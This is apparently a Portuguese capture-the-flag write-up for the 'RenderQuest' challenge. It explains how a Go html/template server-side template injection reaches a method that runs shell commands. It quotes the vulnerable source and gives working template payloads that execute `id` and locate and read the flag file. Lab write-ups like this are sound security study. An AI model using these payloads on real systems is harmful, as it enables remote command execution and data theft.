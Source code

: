 # RenderQuest

> Você encontrou uma aplicação web que permite que você insira templates remotamente para serem renderizados. Sua tarefa é se aproveitar das vulnerabilidades desse sistema para obter a _flag_ escondida. Boa sorte!

Como descrito, esse desafio consiste de uma aplicação web que carrega templates `.tpl` de fontes externas e internas. Como o código-fonte é disponibilizado, é possível analisar o comportamento da aplicação e explorar uma vulnerabilidade de [Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection).

## Reconhecimento

Na página inicial, é possível ver alguns dados que são utilizados para carregar os templates e um formulário para informar uma URL para o template.&#x20;

<figure><img src="https://www.sim0wn.com/images/articles/htb-renderquest/homepage.png" alt="Página inicial da aplicação &#x22;RenderQuest&#x22;. Apresenta uma série de informações que podem ser consumidas através de um template TPL. Por fim, fornece um formulário com um campo que permite informar a URL por onde um template TPL pode ser acessado."><figcaption></figcaption></figure>

Vale notar também que a URL possui um parâmetro "page", o qual indica a fonte da qual o template será carregado. Analisando o código-fonte da página, é possível encontrar a função responsável por processar e carregar o conteúdo da URL informada, além de outras funções interessantes.

```go
import (
  ...
  "html/template"
  "os/exec"
)
...
 
func (p RequestData) FetchServerInfo(command string) string {
  out, err := exec.Command("sh", "-c", command).Output()
  if err != nil {
    return ""
  }
  return string(out)
}
...
 
// executado caso o recurso informado seja local
func readFile(filepath string, basePath string) (string, error) {
  if !isSubdirectory(basePath, filepath) {
    return "", fmt.Errorf("Invalid filepath")
  }
  data, err := os.ReadFile(filepath)
  ...
  return string(data), nil
}
 
// executado caso o recurso informado seja remoto
func readRemoteFile(url string) (string, error) {
  response, err := http.Get(url)
  content, err := io.ReadAll(response.Body)
  ...
  return string(content), nil
}
 
// responsável por processar o template
func getTpl(w http.ResponseWriter, r *http.Request) {
  var page string = r.URL.Query().Get("page")
  var remote string = r.URL.Query().Get("use_remote")
 
  reqData := &RequestData{}
  reqData.ServerInfo.Hostname = reqData.FetchServerInfo("hostname")
  reqData.ServerInfo.OS = reqData.FetchServerInfo("cat /etc/os-release | grep PRETTY_NAME | cut -d '\"' -f 2")
  reqData.ServerInfo.KernelVersion = reqData.FetchServerInfo("uname -r")
  reqData.ServerInfo.Memory = reqData.FetchServerInfo("free -h | awk '/^Mem/{print $2}'")
  ...
 
  err = tmpl.Execute(w, reqData)
}
...
```

Essas funções são essenciais para identificarmos como esse sistema pode ser explorado. Na ordem em que os processos ocorrem, temos a função `getTpl`, que é responsável por processar o template e enviar os objetos que podem ser acessados pelo template. Para isso, ele chama as funções `readFile` e `readRemoteFile`, de acordo com o valor do parâmetro "use\_remote" passado na URL.

A princípio, pode-se imaginar que seja possível incluir o arquivo da flag através do parâmetro `page` e resolver o desafio. Entretanto, isso não é possível principalmente pois o arquivo da flag acompanha um sufixo imprevisível, além de a função `readFile` impedir a leitura de arquivos que não estejam no diretório `templates` ou `app`.

Porém, se observarmos, após realizar a leitura do arquivo de template, a aplicação passa o objeto `reqData` para a instrução `Execute`. Isso permite que os parâmetros do objeto `reqData` sejam acessados pelo template. Entretanto, pesquisando sobre a biblioteca [html/template](https://pkg.go.dev/html/template), utilizada para renderização dos templates da aplicação, encontrei [este artigo](https://www.onsecurity.io/blog/go-ssti-method-research/) que descreve uma vulnerabilidade de SSTI que pode ser escalada para RCE. Quando um objeto é transmitido para ser processado pelo template, todas as suas propriedades se tornam acessíveis no template. Isso se torna um problema principalmente por conta da função `FetchServerInfo`, que permite a execução de código do sistema. Quando o objeto `reqData` é passado para processar o template informado, torna-se possível acessar e executar a função `FetchServerInfo` passando um comando como parâmetro. Dessa forma, tem-se uma RCE (execução de código remoto).

## Explorando a vulnerabilidade

Podemos explorar essa vulnerabilidade criando um arquivo de template em nossa máquina local e expondo-o através de um servidor HTTP e o ngrok. Podemos iniciar um servidor HTTP em Python através do comando `python -m http.server` e expor nossa máquina através do ngrok com o seguinte comando: `ngrok http 8000`. Dessa forma, podemos criar um arquivo de template com um payload malicioso. Como exemplo, um arquivo template.tpl contendo `{{.}}` vai imprimir as propriedades do objeto acessível pelo template. Alterando esse payload para `{{.FetchServerInfo "id"}}` e enviando novamente para ser carregado pela aplicação, a resposta será o resultado do comando `id` executado pela máquina alvo. Dessa forma, temos um RCE que permite navegar pelo sistema e encontrar a _flag_, e basta apenas manipular o argumento do comando FetchServerInfo\`.

## Prova de Conceito

```go
{{.FetchServerInfo "cat $(find / -name flag*.txt -type f)"}}
```
